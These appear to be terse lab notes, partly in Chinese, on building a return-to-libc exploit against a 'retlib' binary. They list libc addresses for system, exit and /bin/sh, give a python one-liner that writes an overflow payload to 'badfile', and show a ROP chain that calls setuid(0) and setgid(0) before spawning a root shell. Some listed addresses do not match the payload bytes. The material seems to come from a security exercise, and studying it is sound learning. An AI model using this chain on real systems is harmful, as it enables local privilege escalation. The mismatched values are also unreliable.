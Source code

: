 整理下指令
system = 0xb7dfcda0
exit = 0xb7df09d0
/bin/sh = 0xb7f1da0b

修一下payload
python -c 'print "A"*24 + "\xa0\x9d\xd7\xb7" + "\xd0\xd9\xd6\xb7" + "\x0b\xaa\xe9\xb7"' > badfile
    
xxd badfile
./retlib
ll retlib

p setuid 
p setgid
p setgid-setuid(算出兩個指令的偏移值)
![image](images/ByHC__bDT.png)

peda ropgadget
找 popret
![image](images/rytkKOWvp.png)
popret = 08048345

setuid = b7eab2e0
setgid = b7eab360
system = b7e34da0
exit = b7e289d0
/bin/sh = b7f55a0b
"\xe0\xb2\xea\xb7" +   //setuid
"\x45\x83\x04\x08" + //ret
"\x00\x00\x00\x00" + // "0" 
"\x60\xb3\xea\xb7\" + //setgid
"\x45\x83\x04\x08" + // ret
"\x00\x00\x00\x00" +// "0"
"\xa0\x4d\xe3\xb7" +
"\xd0\x89\xe2\xb7" +
"\x0b\x5a\xf5\xb7"

---